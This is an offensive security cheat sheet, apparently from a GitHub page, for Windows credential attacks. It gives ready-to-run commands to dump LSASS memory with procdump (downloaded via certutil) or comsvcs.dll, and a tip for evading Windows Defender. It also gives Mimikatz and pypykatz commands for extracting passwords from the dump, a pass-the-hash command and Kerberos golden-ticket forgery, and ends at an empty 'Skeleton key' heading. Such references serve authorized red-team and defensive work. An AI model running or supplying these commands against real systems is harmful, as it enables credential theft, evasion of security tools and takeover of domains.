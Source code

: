 ## Mini Dump

Dump the lsass process with `procdump`

> Windows Defender is triggered when a memory dump of lsass is operated, quickly leading to the deletion of the dump. Using lsass's process identifier (pid) "bypasses" that.

```powershell
# HTTP method - using the default way
certutil -urlcache -split -f http://live.sysinternals.com/procdump.exe C:\Users\Public\procdump.exe
C:\Users\Public\procdump.exe -accepteula -ma lsass.exe lsass.dmp

# SMB method - using the pid
net use Z: https://live.sysinternals.com
tasklist /fi "imagename eq lsass.exe" # Find lsass's pid
Z:\procdump.exe -accepteula -ma $lsass_pid lsass.dmp
```

Dump the lsass process with `rundll32`

```powershell
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $lsass_pid C:\temp\lsass.dmp full
```

Use the minidump:

* Mimikatz: `.\mimikatz.exe "sekurlsa::minidump lsass.dmp"`

  ```powershell
  mimikatz # sekurlsa::minidump lsass.dmp
  mimikatz # sekurlsa::logonPasswords
  ```

* Pypykatz: `pypykatz lsa minidump lsass.dmp`

## Pass The Hash

```powershell
mimikatz # sekurlsa::pth /user:SCCM$ /domain:IDENTITY /ntlm:e722dfcd077a2b0bbe154a1b42872f4e /run:powershell
```

## Golden ticket

```powershell
.\mimikatz kerberos::golden /admin:ADMINACCOUNTNAME /domain:DOMAINFQDN /id:ACCOUNTRID /sid:DOMAINSID /krbtgt:KRBTGTPASSWORDHASH /ptt
```

```powershell
.\mimikatz "kerberos::golden /admin:DarthVader /domain:rd.lab.adsecurity.org /id:9999 /sid:S-1-5-21-135380161-102191138-581311202 /krbtgt:13026055d01f235d67634e109da03321 /startoffset:0 /endin:600 /renewmax:10080 /ptt" exit
```

## Skeleton key
